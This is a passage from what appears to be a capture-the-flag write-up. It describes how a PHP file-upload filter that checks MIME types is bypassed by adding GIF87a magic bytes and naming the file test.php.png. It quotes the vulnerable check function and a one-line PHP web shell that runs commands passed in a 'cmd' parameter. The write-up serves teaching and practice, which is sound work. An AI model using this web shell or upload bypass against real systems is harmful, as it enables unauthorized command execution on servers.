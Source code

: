 Let’s move on to the first validation check. The script calls the _check\_file\_type\(\)_ function from the _lib.php_ file. This in turn calls the _file\_mime\_type\(\)_ function to determine the mime type of the file. Then the mime type is checked to see if it contains the string ‘image/’ in it.

```text
function check_file_type($file) {
  $mime_type = file_mime_type($file);
  if (strpos($mime_type, 'image/') === 0) {
      return true;
  } else {
      return false;
  }  
}
```

This can be easily bypassed because we can simply include what is known as [magic bytes](https://en.wikipedia.org/wiki/List_of_file_signatures) in our file in order to trick the script into thinking the file is an image. This can be be done by adding the string “GIF87a” to the file.

Alright, we know how to bypass both validation checks, so we’re ready to run our exploit.

Create a file called _test.php.png_ and add the the following code to it.

```text
GIF87a                                                                                                                                                                         
<?php system($_GET['cmd']); ?>
```

The first line tricks the application into thinking it is an image and the second line adds a parameter to the get request called _cmd_. Upload the file and intercept the request in Burp.

![](../images/max/694/1*FNs7nj2_FhzuLWTsVvo4ZA.png)
